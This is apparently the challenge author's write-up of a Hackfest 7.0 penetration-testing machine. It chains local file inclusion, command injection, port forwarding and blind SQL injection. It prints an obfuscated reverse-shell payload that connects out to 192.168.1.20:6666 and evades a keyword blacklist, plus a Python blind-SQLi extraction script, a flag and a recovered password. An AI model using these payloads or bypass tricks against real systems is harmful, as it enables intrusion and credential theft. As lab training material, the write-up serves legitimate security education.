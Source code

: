 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0: 
![img](images/image_2023-06-26_001633995.png)
Let's first start with a scan to discover open ports:
![img](images/image_2023-06-25_221255274.png)
So let's go ahead and check the web app on port 80:
![img](images/image_2023-06-25_221211894.png)
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:
![img](images/image_2023-06-25_221230171.png)
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:
![img](images/image_2023-06-25_221346724.png)
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:
![img](images/image_2023-06-25_221412943.png)
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:
![img](images/image_2023-06-25_221430709.png)
We type any command and we find it is vulnerable to command injection:
![img](images/image_2023-06-25_221442066.png)
But when we type some other commands it tells us to get away, not very polite huh? :
![img](images/image_2023-06-25_221518226.png)
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server: 
![img](images/image_2023-06-25_223318248.png)
![img](images/image_2023-06-25_223328201.png)
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:
![img](images/image_2023-06-25_223347505.png)
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):
![img](images/image_2023-06-25_225508169.png)
![img](images/image_2023-06-25_225517751.png)
And now we can access it from ``http://127.0.0.1:10003``:
![img](images/image_2023-06-25_225533101.png)
Now let's try to test a bunch of different things:
![img](images/image_2023-06-25_225552903.png)
![img](images/image_2023-06-25_225605097.png)
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:
``python
#!/usr/bin/python
import requests
def string(start,end):
        str=''
        for i in range(start,end):
                str+=chr(i)
        return str
def passwd():
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
                for i in test:
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':
        passwd()
``
And we run it:
![img](images/image_2023-06-25_231535263.png)
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:
![img](images/image_2023-06-25_231850578.png)
And we get our first flag: 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:
![img](images/image_2023-06-25_232511782.png)
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it: ``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is: ``mallafouedyesahby``

